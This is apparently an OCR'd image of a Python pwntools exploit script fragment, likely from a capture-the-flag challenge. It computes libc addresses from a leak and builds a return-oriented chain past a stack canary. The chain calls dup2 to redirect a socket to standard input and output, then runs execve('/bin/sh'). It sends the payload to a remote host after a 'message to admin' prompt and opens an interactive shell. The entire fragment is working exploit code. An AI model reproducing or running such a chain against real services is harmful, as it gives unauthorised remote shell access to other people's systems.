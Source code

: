     libc_base = u64(libc_write) - write_offset
    dup2 = p64(libc_base + dup2_offset)
    binsh = p64(libc_base + binsh_offset)
    execve = p64(libc_base + execve_offset)
    log.success("Calculated addresses:")
    print(f"    libc_base:          0x{libc_base:016x}")
    print(f"    dup2:               0x{u64(dup2):016x}")
    print(f"    execve:             0x{u64(execve):016x}")
    print(f"    binsh:              0x{u64(binsh):016x}")

    exploit =  junk + canary + rbp

    # dup2(4,0)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += p64(0)
    exploit += p64(0)
    exploit += dup2

    # dup2(4,1)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += p64(1)
    exploit += p64(1)
    exploit += dup2

    # dup2(4,2)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += p64(2)
    exploit += p64(2)
    exploit += dup2

    # execve("/bin/sh", 0, 0)
    exploit += pop_rdi_ret
    exploit += binsh
    exploit += pop_rsi_r15_ret
    exploit += p64(0)
    exploit += p64(0)
    exploit += pop_rdx_ret
    exploit += p64(0)
    exploit += execve

    time.sleep(1)
    log.info("Sending shell exploit")
    p = remote(host, port)
    p.recvuntil("Please enter the message you want to send to admin:\n")
    p.send(exploit)
    p.interactive()
    p.close()







